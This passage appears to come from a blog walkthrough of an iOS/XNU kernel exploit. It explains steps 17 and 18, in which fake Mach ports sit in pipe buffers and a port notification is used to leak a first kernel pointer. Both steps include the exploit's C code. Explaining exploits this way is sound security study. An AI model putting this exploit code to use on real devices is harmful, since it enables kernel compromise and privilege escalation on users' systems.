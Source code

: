 ![Pid]({{site.baseurl}}/images/pid.png)

But what this also means is that our fake task's **kobject** field should point to a task struct that we control, so that we can have a look at the **bsd_info** field of the task that points to a **proc** struct. Ideally, the fake port along with the fake task should both be in the pipe buffers, so we can read and write into them. In order to find that out, we send the mach api call **mach_port_request_notification()** to the fake port to add a request that if the fake port becomes a dead name (**MACH_PORT_DEAD**), the base port will be notified. This causes our fake port's **ip_requests** field to point to an array that contains a pointer to the **base_port** address.

{% highlight c %}
    // 17\. Use mach_port_request_notification() to put a pointer to an array containing
    	// base_port in our port's ip_requests field.
    	mach_port_t prev_notify;
    	kr = mach_port_request_notification(mach_task_self(), fake_port,
    			MACH_NOTIFY_DEAD_NAME, 0,
    			base_port, MACH_MSG_TYPE_MAKE_SEND_ONCE,
    			&prev_notify);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "mach_port_request_notification",
    				kr, mach_error_string(kr));
    		ERROR("could not request a notification for the fake port");
    		fail();
    	}
    	assert(prev_notify == MACH_PORT_NULL);
{% endhighlight %}
#### Step 18: Find the address of the base port

We read from the overlapping pipe buffer and iterate though the whole buffer as ports, look at each possible port's **ip_requests** field, and if we find that field, we know that it contains the address of an array that contains a pointer to **base_port**, because this is the only port we have set a notification for. Note that we still can't read that address yet. We save the offset of that fake port within the pipe buffer. Then we write to the pipe so the data from the pipe can now be read later on. We now know exactly at what offset the fake port lies in the pipe buffer and within which pipe buffer it lies (we already found that out before). We also know the address of **ip_requests** so we need a way to read from that address.

{% highlight c %}
    // 18\. Now read back our pipe buffer to discover the value of ip_requests (and get our
    	// first kernel pointer!). This also tells us where our port is located inside the pipe
    	// buffer.
    	read_pipe();
    	__block uint64_t ip_requests = 0;
    	iterate_ipc_ports(pipe_buffer_size, ^(size_t port_offset, bool *stop) {
    		uint8_t *port = (uint8_t *) pipe_buffer + port_offset;
    		uint64_t *port_ip_requests = (uint64_t *)(port + OFFSET(ipc_port, ip_requests));
    		if (*port_ip_requests != 0) {
    			// We've found the overlapping port. Record the offset of the fake port,
    			// save the ip_requests array, and set the field in the port to NULL.
    			assert(ip_requests == 0);
    			fake_port_offset = port_offset;
    			ip_requests = *port_ip_requests;
    			*port_ip_requests = 0;
    		} else {
    			// Clear out all the other fake ports.
    			memset(port, 0, SIZE(ipc_port));
    		}
    	});
    	// Make sure we found it.
    	if (ip_requests == 0) {
    		ERROR("could not find %s in pipe buffers", "ip_requests");
    		fail();
    	}
    	INFO("got %s at 0x%016llx", "ip_requests", ip_requests);